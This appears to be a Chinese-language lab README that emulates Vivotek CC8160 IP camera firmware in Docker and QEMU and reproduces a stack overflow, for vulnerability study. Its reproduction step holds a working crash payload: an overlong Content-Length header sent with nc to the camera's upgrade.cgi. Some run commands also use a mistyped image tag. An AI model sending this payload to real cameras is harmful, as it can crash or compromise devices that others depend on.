 # Vivotek IP Cameras CC8160 栈溢出漏洞


## 漏洞环境

### 用户级模拟 - 快速验证

手动构建：

```sh
# 构建 binwalk 并解包固件
$ cd baseImage/binwalk
$ docker build -t binwalk .
$ cd Vivotek/remote_stack_overflow
$ docker run -v $PWD/firmware:/root/firmware binwalk -Mer /root/firmware/CC8160-VVTK-0100d.flash.zip

# 构建漏洞环境
$ docker build -t vivotek:cc8160 .

# 后台启动环境
$ docker run --privileged -p 1234:80 -dit vivotek:cc816
```

自动构建：

```sh
# 拉取 binwalk 并解包固件
$ docker pull firmianay/binwalk
$ docker run -v $PWD/firmware:/root/firmware firmianay/binwalk -Mer /root/firmware/CC8160-VVTK-0100d.flash.zip

# 拉取漏洞环境并启动
$ docker pull firmianay/vivotek:cc8160
$ docker run --privileged -p 1234:80 -dit vivotek:cc816
```

### 系统级模拟 - 动态调试

手动构建：

```sh
# 解包过程同上

# 先构建漏洞环境 qemu-system:arm 环境
$ cd baseImage/qemu-system/arm
$ docker build -t qemu-system:arm .

# 再构建漏洞环境
$ docker build -t vivotek:cc8160-sys .

# 启动环境
$ docker run --privileged -it vivotek:cc816
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it [CONTAINER ID] /bin/bash
$ ssh root@192.168.2.2
```

## 漏洞复现

```sh
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 127.0.0.1 1234
```

![img](./crash.png)

## 参考链接

- https://www.exploit-db.com/exploits/44001
- https://xz.aliyun.com/t/5054
- https://www.anquanke.com/post/id/185336
- https://paper.seebug.org/480/
